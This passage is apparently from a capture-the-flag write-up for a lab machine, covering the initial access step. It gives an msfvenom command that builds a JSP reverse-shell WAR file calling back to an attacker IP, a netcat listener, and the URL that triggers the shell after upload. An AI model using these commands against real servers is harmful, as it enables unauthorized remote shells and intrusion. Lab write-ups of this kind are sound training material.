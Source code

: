 ## Access

### Steps

#### Creating a WAR file to upload into the RCE vuln

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.3.63 LPORT=1234 -f war > shell.war
```

**Now we have a uploade file**
- We uplaoded it to the functionality
![alt text](image-2.png)

```
nc -lvnp 1234
```

**Navigate to the url**

```
http://thompson.thm:8080/shell/
```

we got in!!